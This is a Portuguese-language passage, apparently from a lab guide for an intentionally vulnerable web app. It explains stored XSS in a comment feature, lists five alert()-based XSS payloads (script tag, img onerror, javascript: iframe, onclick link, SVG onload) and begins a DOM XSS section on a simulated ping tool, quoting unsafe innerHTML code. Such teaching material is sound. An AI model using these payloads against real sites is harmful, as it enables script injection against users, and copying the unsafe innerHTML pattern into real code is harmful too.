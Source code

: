 **Como funciona**: Os comentários são "armazenados" localmente no DOM e exibidos para todos os usuários. O nome do usuário e o texto do comentário são inseridos diretamente no HTML sem validação.

**Vulnerabilidade no código**:
```javascript
newComment.innerHTML = `<strong>${username}:</strong> ${commentText}`;
```

**5 Exemplos de Payloads**:

1. **Alert no Nome de Usuário**:
   ```html
   Nome: <script>alert('XSS no nome!')</script>
   Comentário: Teste normal
   ```
   Executa JavaScript através do campo de nome.

2. **Imagem Quebrada com Onerror**:
   ```html
   Nome: Usuário
   Comentário: <img src="x" onerror="alert('Imagem quebrada executou XSS!')">
   ```
   Usa o evento onerror de uma imagem inexistente para executar código.

3. **Iframe Malicioso**:
   ```html
   Nome: Atacante
   Comentário: <iframe src="javascript:alert('Iframe XSS')" width="0" height="0"></iframe>
   ```
   Cria um iframe invisível que executa JavaScript.

4. **Event Handler em Link**:
   ```html
   Nome: User
   Comentário: Clique <a href="#" onclick="alert('Link clicado!')">aqui</a> para mais info
   ```
   Adiciona um manipulador de evento onclick em um link.

5. **SVG com JavaScript**:
   ```html
   Nome: SVGUser
   Comentário: <svg onload="alert('SVG XSS executado!')"><rect width="10" height="10"/></svg>
   ```
   Usa SVG com evento onload para executar código.

### 3. XSS Baseado em DOM (DOM XSS)

**Localização**: Ferramenta de ping simulado

**Como funciona**: A entrada do usuário é processada inteiramente pelo JavaScript do lado cliente e inserida no DOM sem passar pelo servidor. O valor é lido do input e escrito diretamente no elemento de resultado.

**Vulnerabilidade no código**:
```javascript
const output = `Iniciando ping simulado para ${target}...`;
networkResult.innerHTML = output;
```
